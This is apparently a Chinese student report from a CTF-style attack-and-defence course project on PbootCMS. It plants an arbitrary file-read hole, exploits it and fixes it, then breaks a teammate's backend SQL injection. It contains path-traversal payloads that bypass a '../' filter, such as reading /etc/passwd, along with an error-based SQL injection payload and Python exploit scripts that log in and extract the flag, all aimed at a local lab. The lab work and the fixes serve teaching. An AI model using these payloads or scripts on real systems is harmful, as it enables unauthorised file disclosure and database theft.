








## WZL ——整个项目中负责的板块以及完成情况

- [x] 设计漏洞一：任意文件读取

  - [x] 漏洞设计
  - [x] Check 设计
  - [x] Exp 设计
  - [x] FixIt

- [x] 攻击漏洞三（组员之间相互 break ）：后台 sql 注入

  - [x] 漏洞分析
  - [x] Exp 构造

## 实验环境

本次实验开发环境和实际项⽬运⾏环境以及 Exp 脚本和 Check 脚本运⾏环境，均基于如下基础环境

- WIN10
- VirtualBox  Kali 虚拟机

## 开发环境

本次开发 PHP 和 MariaDB 均基于 XAMPP 7.4.27-1 提供

* OpenSSL/1.1.1m 
* PHP/7.4.27 
* mod_perl/2.0.11 
* Perl/v5.32.1
* MariaDB/10.4.2
* PhpStorm/2021.3.3

## 项目运行环境

* Apache/2.4.29 (Ubuntu)
* PHP/7.2.11
* Mysql/5.7.24

## 脚本运行环境

本次实验脚本开发环境以及运行环境均基于如下环境

* python 2.7.18
* Visual Studio Code 

```
##在虚拟机中安装vscode（.deb适用于Ubuntu，Debian等）
sudo dpkg -i code_1.58.2-1626302803_amd64.deb
```

在左上角查找 `VScode` 并启动，安装相应的插件包

## 实验步骤

### 一、在系统中对前台任意文件读取漏洞的 `build` 、 `exp`设计、 `check` 设计和 `fix` 。

1. #### `BuidIt` ——漏洞一

   **前台任意文件读取漏洞(在系统的三个漏洞中编号为漏洞一)—本项目基于开源项目 `pbootcms`  2.0.7 进行漏洞设计，对过往版本进行了学习参考**。

   在 Docker 启动时添加命令 `RUN echo "flag{fffllllaaggggg}" > /flag` 。

   漏洞设计在 `core\view\view.php` 中的 `parser` 函数

   ```php
   public function parser($file)
   {
       // 设置主题
       $theme = isset($this->vars['theme']) ? $this->vars['theme'] : 'default';
       
       $theme = preg_replace('/\.\.(\/|\\\)/', '', $theme); // 过滤掉相对路径
       $file = preg_replace('/\.\.(\/|\\\)/', '', $file); // 过滤掉相对路径
       
       if (strpos($file, '/') === 0) { // 绝对路径模板
           $tpl_file = ROOT_PATH . $file;
       } elseif (! ! $pos = strpos($file, '@')) { // 跨模块调用
           $path = APP_PATH . '/' . substr($file, 0, $pos) . '/view/' . $theme;
           define('APP_THEME_DIR', str_replace(DOC_PATH, '', $path));
           if (! is_dir($path)) { // 检查主题是否存在
               error('模板主题目录不存在！主题路径：' . $path);
           } else {
               $this->tplPath = $path;
           }
           $tpl_file = $path . '/' . substr($file, $pos + 1);
       } else {
           // 定义当前应用主题目录
           define('APP_THEME_DIR', str_replace(DOC_PATH, '', APP_VIEW_PATH) . '/' . $theme);
           if (! is_dir($this->tplPath .= '/' . $theme)) { // 检查主题是否存在
               error('模板主题目录不存在！主题路径：' . APP_THEME_DIR);
           }
           $tpl_file = $this->tplPath . '/' . $file; // 模板文件
       }
       $note = Config::get('tpl_html_dir') ? '<br>同时检测到您系统中启用了模板子目录' . Config::get('tpl_html_dir') . '，请核对是否是此原因导致！' : '';
       file_exists($tpl_file) ?: error('模板文件' . APP_THEME_DIR . '/' . $file . '不存在！' . $note);
       $tpl_c_file = $this->tplcPath . '/' . md5($tpl_file) . '.php'; // 编译文件
                                                                      
       // 当编译文件不存在，或者模板文件修改过，则重新生成编译文件
       if (! file_exists($tpl_c_file) || filemtime($tpl_c_file) < filemtime($tpl_file) || ! Config::get('tpl_parser_cache')) {
           $content = Parser::compile($this->tplPath, $tpl_file); // 解析模板
           file_put_contents($tpl_c_file, $content) ?: error('编译文件' . $tpl_c_file . '生成出错！请检查目录是否有可写权限！'); // 写入编译文件
           $compile = true;
       }
       
       ob_start(); // 开启缓冲区,引入编译文件
       $rs = include $tpl_c_file;
       if (! isset($compile)) {
           foreach ($rs as $value) { // 检查包含文件是否更新,其中一个包含文件不存在或修改则重新解析模板
               if (! file_exists($value) || filemtime($tpl_c_file) < filemtime($value) || ! Config::get('tpl_parser_cache')) {
                   $content = Parser::compile($this->tplPath, $tpl_file); // 解析模板
                   file_put_contents($tpl_c_file, $content) ?: error('编译文件' . $tpl_c_file . '生成出错！请检查目录是否有可写权限！'); // 写入编译文件
                   ob_clean();
                   include $tpl_c_file;
                   break;
               }
           }
       }
       $content = ob_get_contents();
       ob_end_clean();
       return $content;
   }Copy
   $file = preg_replace('/\.\.(\/|\\\)/', '', $file); // 过滤掉相对路径Copy
   ```

   

   可以看到过滤了 `../` 和`\` ，**双写绕过**。

   

   当模板文件不在缓存中的时候，会读取 `$tpl_file` 中的内容，然后写入缓存文件中并且包含。也就是说，当 `parser` 函数的参数可以被控制的时候，就会造成一个任意文件包含。因此，我们**要找一个可控参数的 `parser` 调用。**

   在 `apps\home\controller\SearchController.php` 中存在 `parser` ,并且 `searchtpl` 可控。

   

   

   测试:

   `?search=&searchtpl=..././..././..././robots.txt`

   

   两种绕过写法:

   `?search=&searchtpl=..././..././..././..././..././..././..././..././etc/passwd`

   `?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`

   

   发现可以在此进行漏洞利用。

3. #### `Exp` 设计

   根据漏洞一，进⾏ `Exp` 设计，利⽤ `request` 库直接发送数据即可拿到 `flag` 。

   ```python
   import requests
   def exp(url):
       r=requests.get(url)
       flag=r.text
       return flag
   if __name__ == '__main__':
       print(exp("http://127.0.0.1/?search=&searchtpl=..././..././..././..././..././..././..././..././flag"))
   ```
   
   
   
3. #### `Check` 设计

   `check` 的主要原则是模拟用户正常使用漏洞点的地方。对漏洞一的 `check` 主要模拟用户搜索过程。

   - 首先在网站中正常搜索发现:

     如果能在系统内搜索到关键词，则跳转相应的页面并高亮：

     

     如果搜索不到，则显示如下界面：

     

   - 所以 `check` 的思路为：基于系统中已经预先置入的一些数据，进行搜索关键词的设置。

     1. 设定两个系统中可以搜索到的关键词和一个不能搜索到的关键词：

        ```python
            keywords = {
                "PHP":1,
                "服务":1,
                "lalalaallalala":0   
            }
            ##其中 keywords 为 check 检索时搜索引擎的搜索关键字列表
            ## key 是检索的关键字 value 的含义是 如果该关键字可以被检索则赋值 1 ，如果检索不到则赋值为 0。举例来说，"PHP" 和"服务"是可以被检索到的，"lalalaallalala"是检索不到的。
        ```

        

        

        

     2. 针对关键词进行逐一检查：

        ```python
        def GetSearchState(keyword,flag):
            r = requests.get("http://127.0.0.1/?keyword=" + keyword)
            r.encoding = 'utf-8'
            soup = BeautifulSoup(r.text, "html.parser")
            if(flag==0):
                ##传入的关键字本身就是找不到的，则一定会显示“未搜索到任何数据”，所以在前端找对应的标签，找的则返回 True
                item = soup.find("div", "text-center my-5 text-secondary")
                if(item==None):
                    return False
                if(item.text=="未搜索到任何数据！"):
                    return True
                else:
                    return False
            elif(flag==1):
                ##传入的关键词是能找到的，则一定会实现页面跳转，并且测试的两个用例对应的跳转页面都有"col-12 col-sm-6 col-lg-3"标签。
                item = soup.find("div", "col-12 col-sm-6 col-lg-3")
                if(item!=None):
                    return True
                else:
                    return False
        ```

     3. 主函数如下：

        ```python
        import requests
        from bs4 import BeautifulSoup
        if __name__ == '__main__':
            keywords = {
                "PHP":1,
                "服务":1,
                "lalalaallalala":0 
            }
            
            for i in keywords:
                if(GetSearchState(i,keywords[i])==False):
                    flag=0
                    break
                else:
                    flag=1
            if(flag==0):
                print("Check Down")
            else:
                print("Check Up")
        ```
        
        

5. #### `FixIt`

    - Before Fix — `awdBreak` 文件夹下

      `apps\home\controller\SearchController.php` line 26-32

      ```php
      $searchtpl = request('searchtpl');
      if (! preg_match('/^[\w\-\.\/]+$/', $searchtpl)) {
             $searchtpl = 'search.html';
      }
      ```

    - After Fix — `awdFix` 文件夹下

      `apps\home\controller\SearchController.php` line 26-32

      ```php
      $searchtpl = request('searchtpl');
      if (! preg_match('/^[\w]+\.html$/', $searchtpl)) {
          $searchtpl = 'search.html';
      }
      ```

      **这里 Fix 采取白名单策略，匹配正则失败 `$searchtpl` 默认等于 `search.html` 从而防止任意读取其他文件**
    
    

### 二、 `BreakIt` ——漏洞三-后台 `sql` 注入漏洞（与小组成员交换漏洞）——做题人视角解题

**整体破解思路分析**：

- 由于是后台 RCE ，需要先拿到账号密码登录

- 漏洞在新增内容处，参考 [PbootCMS SQL Injection](https://github.com/wowwooo/vnotes/blob/master/PbootCMS%20SQL%20Injection%20Description.md) 进行注入测试，首先尝试一下爆数据库名，发现成功。

  ```mysql
  1' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(database(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND 'a'='a
  ```

  

- 所以利用报错注入可以一步步得到 Flag。

一、破解账号和密码

根据提示——题目线索：检查一下 `MTJAYWE0Li8oOUViOUFEKTApNw==` 看看能发现什么吧~

- 看到熟悉的 `=` ，肯定和 `base64` 加密有关，推测用户名为 `check` , `MTJAYWE0Li8oOUViOUFEKTApNw==` 是由原始密码经过 `base64` 加密变换后得到的密文。
- 经过尝试，发现使用 `base64` 解密，得到 `12@aa4./(9Eb9AD)0)7` ，看起来很像密码，在网站试一下果然是正确的。

在脚本中 `base64` 解密函数

```python
def b64decode(str):   
    decode = base64.b64decode(str)
    return decode
```

二、拿 Flag

检查登录页：




1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def GetFormCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def GetCookies():
       formcheck = GetFormCheck()
       password = b64decode("MTJAYWE0Li8oOUViOUFEKTApNw==")
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + formcheck[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': password,
           'formcheck': formcheck[0]
       }
       
       r = requests.post(url, data, headers=headers)
       cookies = r.cookies['PbootSystem']
       return 'PbootSystem='+cookies
   ```

3. 发送 POC 到指定位置，并返回数据库报错内容

   ```python
   def SentExp():
       cookie = GetCookies()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': cookie
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": "checktest",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-21+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def GetFlag():
       flag_text = re.findall(r'flag{(.+?)}', SentExp())
       return "flag{"+flag_text[0]+"}"
   ```

主函数

```python
import re
import requests
from bs4 import BeautifulSoup

if __name__ == '__main__':
    print(GetFlag())
```

执行脚本拿到 flag：



#### 同理，在漏洞修复后的 docker中测试 exp 脚本，发现漏洞利用失效，证明漏洞修复成功：


### 遇到的问题和解决办法：

1. 解决 `Vscode` 下载慢的问题

   以我的下载链接 `https://az764295.vo.msecnd.net/stable/c3f126316369cd610563c75b1b1725e0679adfb3/code_1.58.2-1626302803_amd64.deb` 为例，把 `/stable` 前面的 `az764295.vo.msecnd.net` 换成 `vscode.cdn.azure.cn`

2. 连接服务器失败

   

   **原因** ：有一些奇怪的 `bug` ，中间不能执行 `sudo docker-compose stop` ，否则就出问题。

   **解决办法** ：完全删掉镜像，重新执行命令即可。[参考链接](https://blog.csdn.net/footbridge/article/details/123053052)

   ```
   ##查看全部镜像
   sudo docker images
   
   ##删除镜像
   sudo docker rmi b3843aae40f8( IMAGE ID ) -f
   
   ##删除容器
   sudo docker rm xxx
   ```

   

### 参考链接

- [PbootCMS 开发手册](https://www.pbootcms.com/docs/218.html)
- [VScode(Visual Studio Code)在Liunx下的安装与配置](https://blog.csdn.net/qq_42519524/article/details/119250935)
- [正则表达式](https://blog.csdn.net/weixin_40907382/article/details/79654372)
- [PbootCMS SQL Injection Description](https://github.com/wowwooo/vnotes/blob/master/PbootCMS%20SQL%20Injection%20Description.md)
- [PbootCMS V1.3.2 SQL injection](https://www.dazhuanlan.com/aaronzhcl/topics/1213609)
- [sql注入中报错注入函数extractvalue和updatexml函数的原理及使用](https://blog.csdn.net/weixin_46145442/article/details/110254238)